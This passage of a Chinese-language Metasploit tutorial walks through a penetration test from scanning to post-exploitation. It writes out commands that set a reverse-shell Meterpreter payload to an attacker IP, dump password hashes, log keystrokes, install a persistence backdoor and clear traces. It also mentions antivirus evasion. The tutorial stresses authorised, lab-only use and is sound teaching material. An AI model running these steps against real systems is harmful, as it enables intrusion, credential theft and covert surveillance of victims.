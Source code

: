 #### **三、基本工作流程**

一次典型的 Metasploit 渗透测试遵循以下步骤：

1.  **信息收集**
    *   使用 `nmap`, `auxiliary/scanner/portscan/tcp` 等工具扫描目标，获取开放的端口、运行的服务、操作系统等信息。

2.  **漏洞分析**
    *   根据收集到的信息，判断目标可能存在的漏洞。
    *   在 Metasploit 中搜索相关的 Exploit：`search [服务名或CVE编号]`

3.  **漏洞利用**
    *   选择一个 Exploit：`use exploit/...`
    *   设置必要参数（如目标IP RHOSTS，端口 RPORT）：`set RHOSTS 192.168.1.100`
    *   选择一个 Payload：`set PAYLOAD windows/meterpreter/reverse_tcp`
    *   设置 Payload 参数（如攻击者IP LHOST，端口 LPORT）：`set LHOST 192.168.1.50`
    *   执行攻击：`exploit`

4.  **权限提升**
    *   如果获取的 Shell 权限较低（如普通用户），使用 `getsystem` 或专门的提权模块（如 `exploit/windows/local/bypassuac`）来获取系统最高权限（SYSTEM/root）。

5.  **后渗透**
    *   这是 Meterpreter 大显身手的阶段。在目标系统上进行的深入操作，例如：
        *   `hashdump`： 导出密码哈希，可用于破解或“传递哈希”攻击。
        *   `screenshot`： 截取屏幕。
        *   `keyscan_start/keyscan_dump`： 键盘记录。
        *   `migrate`： 将 Meterpreter 进程迁移到一个更稳定的系统进程（如 `explorer.exe`）中。
        *   `persistence`： 创建持久化后门，保证在目标重启后仍能维持访问。

6.  **清理痕迹**
    *   删除创建的文件、日志等，避免被检测到。（在授权的渗透测试中，有时客户会要求保留痕迹以评估其检测能力）。

#### **四、使用场景**

*   **渗透测试**： 核心用途，模拟黑客攻击以评估企业网络的安全性。
*   **漏洞研究与验证**： 当一个新的漏洞（CVE）被披露时，安全研究员可以使用或编写对应的 Metasploit 模块来验证该漏洞的真实性和危害性。
*   **安全产品测试**： 测试 IDS/IPS、防火墙、杀毒软件等安全产品的检测和防御能力。
*   **网络安全教学**： 在受控的实验室环境（如 Kali Linux + Metasploitable VM）中，学习攻击技术和防御原理。

#### **五、重要注意事项与最佳实践**

1.  **合法性！合法性！合法性！**
    *   **仅在您拥有明确书面授权的目标上使用 Metasploit**。未经授权使用是违法行为。
    *   建议在专属的虚拟实验室（如 VMware/VirtualBox）中进行学习和测试。

2.  **保持更新**
    *   Metasploit 社区非常活跃，每天都有新的模块被添加。定期运行 `msfupdate` 来获取最新的 Exploit 和功能。

3.  **理解原理，而非死记命令**
    *   Metasploit 自动化了攻击过程，但一个优秀的渗透测试师必须理解其背后的漏洞原理、利用技术和防御方法。

4.  **免杀（Antivirus Evasion）**
    *   默认生成的 Payload 很容易被现代杀毒软件检测到。需要结合编码、加壳、密码器或自定义编写等技术来绕过检测。

5.  **与其它工具结合**
    *   Metasploit 可以很好地与 Nmap、Nessus、Burp Suite 等其他安全工具配合使用，形成一个完整的工作流。
